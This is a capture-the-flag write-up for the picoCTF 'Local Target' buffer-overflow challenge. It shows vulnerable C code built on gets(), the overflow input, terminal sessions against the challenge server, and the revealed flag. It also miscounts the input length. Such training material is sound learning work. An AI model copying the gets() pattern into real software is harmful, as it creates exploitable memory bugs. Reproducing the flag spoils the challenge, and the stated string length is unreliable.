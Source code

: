 ### Local Target

Author: OverTheWire.org / LT 'syreal' Jones
#Medium #Binary_exploitation #picoGym #gets
#### Description

Smash the stack Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using: `nc saturn.picoctf.net 50420`

##### Solution:
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    FILE *fptr;
    char c;

    char input[16];
    int num = 64;

    printf("Enter a string: ");
    fflush(stdout);
    gets(input);
    printf("\n");

    printf("num is %d\n", num);
    fflush(stdout);

    if (num == 65) {
        printf("You win!\n");
        fflush(stdout);
        // Open file
        fptr = fopen("flag.txt", "r");
        if (fptr == NULL) {
            printf("Cannot open file.\n");
            fflush(stdout);
            exit(0);
        }

        // Read contents from file
        c = fgetc(fptr);
        while (c != EOF) {
            printf("%c", c);
            c = fgetc(fptr);
        }
        fflush(stdout);

        printf("\n");
        fflush(stdout);
        fclose(fptr);
        exit(0);
    }

    printf("Bye!\n");
    fflush(stdout);
}

```

when you try to run enter string AAAAAAAAAAAAAAAA with 16 length
```css
./exploit_program 
Enter a string: AAAAAAAAAAAAAAAA   

num is 64
Bye!
```
but you need 65 `if (num == 65)`
AAAAAAAAAAAAAAAAAAAAAAAAA this is 26 length character
```css
./local-target 
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
pico you win
```
my flag.txt is `pico you win`
now test on server
```css
nc saturn.picoctf.net 50420
Enter a string: 111111111111111111111111A

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```
or
```css
nc saturn.picoctf.net 50420
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

at the end A must be added so that it will print 65 Because ascii value of A is 65